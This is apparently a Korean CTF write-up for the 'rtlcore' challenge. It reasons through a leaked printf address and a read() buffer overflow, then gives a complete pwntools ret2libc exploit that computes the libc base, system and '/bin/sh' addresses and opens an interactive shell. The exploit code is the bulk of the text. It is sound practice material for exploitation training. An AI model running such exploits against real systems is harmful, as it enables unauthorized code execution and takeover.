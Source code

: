 주소하나를 던져주는데 이 주소는 printf의 주소인데 정확히 plt인지 got인지 모르겠다.

그 이후 프로그램은 다음 코드를 진행한다

```c
return read(0, &buf, 100u);
```

이게 의미하는 것은 무엇일까 BOF는 맞는거 같은데...위의 주소를 이용하는 거라면 GOT라고 가정하고 GOT Overwirte일까? 하지만 이 함수 이후 printf가 Call이 되지 않는다. 음... 만약 Offset이라면 offset 만큼 빼서 base를 구하고 system과 ,/bin/sh를 구해서 쉘을 띄운다면?

그럼.... 페이로드를 어떻게 해야할까?

Dummy | system | "AAAA" | /bin/sh" 로 가능하다.

```python
from pwn import *

context.arch = 'i386'
context.terminal=['tmux', 'splitw', '-h']
p = process("./rtlcore")
#e = ELF("./libc.so.6")
#p = remote('ctf.j0n9hyun.xyz', 3011)
#gdb.attach(p, 'b*0x0804867a')
pop3ret = 0x08048681
printf_offset = 0x51430
system_offset = 0x3d2e0
binsh_offset = 0x17e0af
print p.recvuntil("Passcode: ")

payload = ''
payload += p32(0x2691f021)*4 + p32(0x2691f021 + 2)
p.sendline(payload)
print p.recvline()
print p.recv(34)
printf = int(p.recv(10), 16)
print "printf addr : ",hex(printf)
print p.recvuntil("\n")

libc_base = printf - printf_offset
system_addr = libc_base + system_offset
binsh_addr = libc_base + binsh_offset
print "libc_base : ", hex(libc_base)
print "system_addr : ", hex(system_addr)
print "binsh_addr : ", hex(binsh_addr)
payload = ''
payload += "A"*66
payload += p32(system_addr)
payload += "AAAA"
payload += p32(binsh_addr)

p.sendline(payload)
p.interactive()
```
